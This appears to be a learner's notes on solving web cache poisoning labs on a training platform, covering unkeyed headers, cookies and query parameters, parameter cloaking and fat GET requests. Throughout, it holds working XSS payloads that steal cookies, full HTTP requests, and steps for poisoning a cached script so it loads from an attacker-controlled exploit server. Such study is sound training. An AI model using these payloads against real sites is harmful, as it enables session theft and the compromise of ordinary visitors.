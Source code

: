 # Web Cache Poisoning

## Unkeyed header
- Use param miner extension to find headers
  - Found that x-Forwarded-Host is reflected in the response
- Used this payload to exploit: `X-Forwarded-Host: "></script><script>alert(document.cookie)</script><script>`

## Unkeyed cookie
- Cookies are not in cache key 
  - Cache key = predefined request components
- Param miner found fehost cookie
- Used this payload to exploit: `Cookie: fehost=x")</script><script>alert(1)</script><script>`

## Multiple headers
- Param miner found X-Forwarded-Proto header
- If you use this it adds a redirect to a url that includes the web dir in the original request
- The website also allowed for X-Forwarded-Host which would change the link
- I sent this request to tracking.js:
```
GET /resources/js/tracking.js HTTP/2Host: 0a5200060335f34b817d667700130056.web-security-academy.net
Cookie: session=CMTcrvpZEooQ7J39QXbx1HYOk8OlhNwC
Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: script
Referer: https://0a5200060335f34b817d667700130056.web-security-academy.net/?%3Cscript%3Ealert(1)%3C/script%3E
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
X-Forwarded-Scheme: http
X-Forwarded-Host: exploit-0a7a00fd0366f3b28166658101d300c4.exploit-server.net
```
- and got this response:
```
HTTP/2 302 Found
Location: https://exploit-0a7a00fd0366f3b28166658101d300c4.exploit-server.net/resources/js/tracking.js
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 3
X-Cache: hit
Content-Length: 0
```
- The X-Cache: hit means that the new link was stored
- The payload on the exploit server was: alert(document.cookie)

- Unknown header
-- Param miner found X-Host header
-- -- This edited the tracking.js link
-- -- Changed exploit server to: /resources/js/tracking.js
-- -- added the payload alert(document.cookie)
-- This works for me, but no solve
-- Found that the Vary header in the response is set to User-Agent
-- The comments allowed for HTML so used: <img src="https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/foo" />
-- -- This made the victim interact with the server
-- -- The victims User-Agent was in the access log
-- Changed the User-Agent in Burp and resent the request

- Unkeyed query string
-- You have to add the Origin header to test since it was a cache buster
-- --  You need a cache buster when you constantly get hits and no misses
-- This solves the lab: /?test=x'/><script>alert(1)</script><

- Unkeyed query parameter
-- utm parameter was Unkeyed
-- This is the payload: /?utm_content='/><script>alert(1)</script><
-- Again Origin was cache buster
-- Take off Origin and click send until it appears

- Parameter cloaking
-- utm parameter was allowed 
-- The geolocate.js was using callback
-- Used this to cloak the change in callback: /js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=alert(1)
-- -- Cloaking was needed to avoid the cache keys

- fat GET
-- Found callback in geolocate.js
-- Used this request to get the alert
------------------------------------------------------------------------------------------
GET /js/geolocate.js?callback=setCountryCookie HTTP/2
Host: 0a26003f0429f29e803576e000d8002b.web-security-academy.net
Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: script
Referer: https://0a26003f0429f29e803576e000d8002b.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
X-Http-Method-Override: POST
Content-Length: 17

callback=alert(1)
------------------------------------------------------------------------------------------

- URL Normalization
-- 404 error reflected url
-- You had to poison and immediately send the url to the victim
-- This was the url: https://0a44009203ac0bc18de49d8000e1004b.web-security-academy.net/x</p><script>alert(1)</script><p>
